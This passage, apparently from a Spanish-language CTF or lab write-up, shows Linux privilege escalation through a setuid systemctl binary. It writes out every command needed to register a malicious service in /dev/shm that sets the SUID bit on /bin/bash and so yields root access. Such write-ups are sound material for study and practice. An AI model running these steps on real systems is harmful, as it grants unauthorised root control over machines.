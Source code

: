 ```
   524423     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   524554     44 -rwsr-xr-x   1 root     root          43088 Sep 16  2020 /bin/mount
   524356     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   524407     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
```

Veremos la siguiente seccion por la que podremos ser `root`...

```
 524425    180 -rwsr-sr-x   1 root     root    182352 Jul  8  2020 /bin/systemctl
```

URL = https://gtfobins.github.io/gtfobins/systemctl/

Por lo que si hacemos lo siguiente podremos ser `root`...

Antes de nada, en la carpeta tipica de `/tmp` no podremos hacer esta escalada, tendremos que hacerlo en otra carpeta que es como `/tmp` donde si podremos ejecutar los archivos de forma libre `/dev/shm`

```shell
TF=$(mktemp /dev/shm/my-service.XXXXXX.service)
```

```shell
echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod u+s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
```

```shell
systemctl link $TF
```

Ahora veremos como se llama nuestro servicio creado de la siguiente forma...

```shell
ls /dev/shm/my-service*
```

Info:

```
/dev/shm/my-service.pdRid6.service
```

Por lo que si sabemos como se llama nuestro servicio temporal, ya podremos ejecutarlo...

```shell
systemctl enable --now my-service.pdRid6.service
```

Una vez hecho eso y hemos hecho que se pusiera los permisos `SUID` en `/bin/bash` podremos hacer lo siguiente...

```shell
ls -la /bin/bash
```
